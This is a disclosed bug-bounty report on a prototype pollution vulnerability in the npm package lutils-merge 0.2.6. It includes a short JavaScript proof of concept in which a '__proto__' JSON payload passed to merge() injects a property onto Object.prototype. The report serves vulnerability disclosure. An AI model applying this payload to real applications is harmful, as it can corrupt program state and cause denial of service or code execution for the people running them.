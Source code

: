 # Prototype pollution attack (lutils-merge)

## Report Details
- **Report ID**: 439107
- **URL**: https://hackerone.com/reports/439107
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-11-11T14:18:51.548Z
- **Disclosed**: 2018-12-17T13:15:14.605Z

## Reporter
- **Username**: dienpv
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi team,
I would like to report a prototype pollution vulnerability in lutils-merge
that allows an attacker to inject properties on Object.prototype.

# Module

**module name:** lutils-merge
**version:** 0.2.6
**npm page:** `https://www.npmjs.com/package/lutils-merge`

## Module Description

> Merge javascript objects recursively.

## Module Stats
79 downloads in the last week

# Vulnerability

## Vulnerability Description

> this vulnerability type is similar to my report #438274
lutils-merge is vulnerable to prototype pollution when it performs a recursive copy of the specified objects.

## Steps To Reproduce:

> In the following code snippet, "payload" would come from user-input (JSON data).
```javascript
var merge = require('lutils-merge');
var payload = '{"__proto__":{"polluted":"merge_done !"}}';
var test = {};
console.log("Before: ", test.polluted);
merge({},JSON.parse(payload));
console.log("After: ", test.polluted);

# Wrap up

- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N 

Thanks!

## Impact

It causes Denial of Service or RCE in some cases.

## Attachments
No attachments
